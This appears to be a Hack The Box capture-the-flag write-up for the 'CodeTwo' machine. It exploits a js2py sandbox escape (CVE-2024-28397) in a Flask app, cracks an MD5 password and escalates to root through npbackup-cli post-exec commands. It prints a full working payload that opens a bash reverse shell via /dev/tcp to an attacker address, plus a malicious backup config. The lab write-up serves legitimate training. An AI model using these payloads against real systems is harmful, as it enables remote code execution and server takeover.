 ```yaml
---
layout: post
title:  "Hack The Box CodeTWO Write-up"
category : 
tags :  hackthebox ctf js2py cve-2024-28397 flask sqlite md5 npbackup privilege-escalation
---
```


Machine Author(s): FisMatHack

# CodeTwo - HackTheBox

**IP:** `10.10.11.82`  
**Difficulty:** easy  
**OS:** Linux  


---

## Reconnaissance

### Nmap
```bash
nmap -sC -sV -oN nmap.txt 10.10.11.82
```

**Open Port:** 8000 (Python Console)

## Web Enumeration

### Port 8000 - Python Console Application
- Flask application available at `http://10.10.11.82:8000`
- Application download functionality (`/download`)
- Downloaded `app.zip` containing source code

## Source Code Analysis

### Application Structure
```
app/
├── app.py (main code)
├── users.db (SQLite database)
├── static/
└── templates/
```

### Vulnerabilities Identified in app.py

#### 1. **Weak MD5 Hashing**
```python
password_hash = hashlib.md5(password.encode()).hexdigest()
```

#### 2. **Server-side JavaScript Execution**
```python
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)  # ⚠️ RCE via js2py
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

**Insufficient Protection:**
```python
js2py.disable_pyimport()  # Bypassable
```

## Exploitation

### CVE-2024-28397 - js2py Sandbox Escape

**Reference:** https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape

#### Exploitation Technique
1. Access Python's type system via JavaScript
2. `Object.getOwnPropertyNames({}).__getattribute__`
3. Navigate to `__class__.__base__` (Python base object)
4. Enumerate `object.__subclasses__()`
5. Find `subprocess.Popen`
6. Execute system commands

### Reverse Shell Payload

```javascript
var hacked = Object.getOwnPropertyNames({});
var bymarve = hacked.__getattribute__;
var n11 = bymarve("__getattribute__");
var obj = n11("__class__").__base__;

function findPopen(o) {
    var subs = o.__subclasses__();
    for (var i in subs) {
        try {
            var item = subs[i];
            if (item && item.__module__ && item.__name__) {
                if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
                    return item;
                }
            }
            if (item && item.__name__ != "type") {
                var result = findPopen(item);
                if (result) return result;
            }
        } catch(e) {
            continue;
        }
    }
    return null;
}

var Popen = findPopen(obj);
if (Popen) {
    var cmd = "bash -c 'exec 5<>/dev/tcp/10.10.16.X/4444;cat <&5 | while read line; do $line 2>&5 >&5; done'";
    var out = Popen(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
    console.log(out);
} else {
    console.log("Popen not found");
}
```

### Exploitation Steps
1. **Setup Listener:** `nc -lvnp 4444`
2. **Register** on the web application
3. **Login** to dashboard
4. **Execute** JavaScript payload
5. **Shell obtained** as `app` user

## User Access

### Database Extraction
```bash
cd /home/app/app/instance
cat users.db
```

**Found Data:**
- **Username:** `marco`
- **MD5 Hash:** `649c9d65a206a75f5abe509fe128bce5`

### Hash Cracking
**Tool:** https://crackstation.net/  
**Password:** `sweetangelbabylove`

### SSH Connection
```bash
ssh marco@10.10.11.82
cat /home/marco/user.txt
```

**User Flag obtained** 🚩

## Privilege Escalation

### Privilege Enumeration
```bash
sudo -l
```

**Result:**
```
User marco may run the following commands on codetwo:
    (root) NOPASSWD: /usr/local/bin/npbackup-cli
```

### npbackup-cli Analysis

#### Existing Configuration
`npbackup.conf` file present in `/home/marco/`

#### Initial Test
```bash
sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b --force
```

**Error:** Backup smaller than configured minimum backup size

### Exploitation via Malicious Configuration

#### Creating Modified Configuration File
```bash
cp npbackup.conf npbackupp.conf
```

**Configuration File Modification:**
```yaml
backup_opts:
  paths:
    - /root  # Changed source path
  source_type: folder_list
  post_exec_commands:
    - "cp /root/root.txt /home/marco/root.txt"
    - "chmod 777 /home/marco/root.txt"
```

#### Execution
```bash
sudo /usr/local/bin/npbackup-cli -c npbackupp.conf -b --force
```

#### Flag Retrieval
```bash
cat /home/marco/root.txt
```

**Root Flag obtained** 🏁

---

## Summary

1. **Reconnaissance:** Flask application on port 8000
2. **Analysis:** js2py vulnerability (CVE-2024-28397) + weak MD5 hashing
3. **Exploitation:** RCE via JavaScript sandbox escape
4. **User:** MD5 hash cracking for SSH access
5. **Root:** npbackup-cli exploitation with malicious configuration

## Key Vulnerabilities
- **CVE-2024-28397:** js2py Sandbox Escape
- **Weak Hashing:** Easily crackable MD5
- **Sudo Configuration:** npbackup-cli with post_exec_commands

